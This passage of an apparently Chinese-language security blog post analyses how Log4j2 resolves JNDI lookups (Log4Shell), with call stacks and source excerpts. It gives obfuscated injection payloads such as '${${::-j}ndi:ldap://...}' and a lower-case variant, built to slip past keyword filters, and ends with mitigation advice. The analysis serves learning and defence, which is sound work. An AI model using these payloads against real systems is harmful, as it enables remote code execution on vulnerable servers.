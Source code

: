 然后进入到 if 语句里面，如果检测到 `${` 开头，则取出从 `offset` 到当前 `workingBuilder` 末尾的内容，故这里 value 的值就为当时输入的值

![image-20250413173023770](https://6s6photo.oss-cn-chengdu.aliyuncs.com/20250625174424355.png)

然后调用 `replace()` ，又调用 `substitute()`，最后会调用到 `org.apache.logging.log4j.core.lookup.StrSubstitutor#resolveVariable`，这里的调用栈

```
resolveVariable:1106, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:132, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
```

其源码

```
    protected String resolveVariable(final LogEvent event, final String variableName, final StringBuilder buf, final int startPos, final int endPos) {
        StrLookup resolver = this.getVariableResolver();
        return resolver == null ? null : resolver.lookup(event, variableName);
    }
```

`resolver`解析时支持的关键词有`[date, java, marker, ctx, lower, upper, jndi, main, jvmrunargs, sys, env, log4j]`，而我们这里利用的`jndi:xxx`后续就会用到`JndiLookup`这个解析器，调用栈

```
lookup:55, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
```

最后调用到log4j2原生的 `lookup()` 方法

![image-20250413180231646](https://6s6photo.oss-cn-chengdu.aliyuncs.com/20250625174424379.png)

## 绕过其防御

先是绕过

递归解析绕过：log4j2 支持表达式递归解析，下面的表达式会逐层解析，由于 `:-`是键值对的分隔符，而表达式只管取值，从而使得  `{::-j}` -&gt; `j`，类似的可以混淆其他字符。

```
loggr.info(&#34;${${::-j}ndi:ldap://127.0.0.1:1099/exp}&#34;);
logger.info(&#34;${${,:-j}ndi:ldap://127.0.0.1:1099/exp}&#34;)
```

lowwer / upper 绕过：使用 log4j2 支持的关键字，实现大小写绕过

```
logg.info(&#34;${${lower:J}ndi:ldap://127.0.0.1:1099/exp}&#34;);
```

防御

先是最简单的，更新到最新版本或者安全版本，比如 2.15.0-rc2 安全版本，并确认不开启 JNDI Lookup ，还有些临时应急操作，比如 jvm 添加 -Dlog4j2.formatMsgNoLookups=true 参数（使得noLookup为true，不会进入到lookup中）
